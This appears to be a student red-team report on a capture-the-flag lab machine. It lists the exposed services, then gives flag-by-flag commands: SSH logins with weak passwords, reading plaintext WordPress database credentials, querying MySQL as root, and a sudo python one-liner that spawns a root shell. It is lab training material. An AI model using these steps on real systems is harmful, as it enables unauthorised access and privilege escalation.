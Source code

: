 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

- ![nmapscan](./Images/nmapscan.jpg)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - wpscan enumerate usernames
	- running wpscan was able to enumerate usernames for the target system.
     (insert wpscan screenshots)

  - SSH with password.
	- Users are able to SSH with a password instead of requiring an SSH key.
	- User michael had a weak password(Brute forced with HYDRA)
	(insert hydra screenshot)

  - Database credentials for wordpress are written in plain text.
	- Database credentials were stored in /var/www/html/
	- This allowed me to access the mysql database and extract confidential information such as password hashes.

  - python can be run with sudo privilages.
	- The user steven has the ability to run python with sudo.
	- Running python with sudo can execute arbitrary code on the system to get a shell with root access.


_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cd /var`
	- `grep -rnw ./ -e flag1 2>/dev/null`

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to cat the flag 2 file found in /var/www.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cd /var/www`
	- `cat flag2.txt`

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of wp_posts in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cat /var/www/html/wp_config.php`
	- `mysql -u root -p` (password R@v3nSecurity)
	- `USE wordpress;`
	- `USE wp_posts;`
	- `SELECT * FROM wp_posts;`

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using john the ripper, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
     - Commands run:
	- `ssh steven@192.168.1.110 (password pink84)`
	- `python -c 'import os; os.system("/bin/sh")'`
	- `cat /root/flag4.txt`

